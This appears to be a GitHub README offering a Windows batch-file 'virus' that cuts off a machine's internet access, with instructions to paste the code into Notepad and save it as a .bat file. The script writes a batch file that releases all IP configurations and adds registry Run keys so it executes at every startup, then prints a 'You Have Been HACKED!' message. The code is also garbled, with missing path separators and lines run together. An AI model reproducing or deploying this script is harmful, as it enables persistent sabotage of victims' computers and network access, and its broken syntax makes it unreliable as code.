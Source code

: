 # Disable Windows Internet Permanently Bat File Virus
This code will Disable Internet Of The System After Executing The Files. 
<br>
<br>
copy the following code in notepad and save that with .bat extention
```
echo @echo off>c:windowswimn32.bat
echo break off>c:windowswimn32.bat echo
ipconfig/release_all>c:windowswimn32.bat
echo end>c:windowswimn32.batreg add
hkey_local_machinesoftwaremicrosoftwindowscurrentversionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /freg add
hkey_current_usersoftwaremicrosoftwindowscurrentversionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.bat /fecho You Have Been HACKED!
PAUSE
```
# DisclaimerThis Is Not A Toy. This Is A Virus. Dont Try It On Any Real Hardware. I Am Not Responsible for Any Misuse Of This Virus.

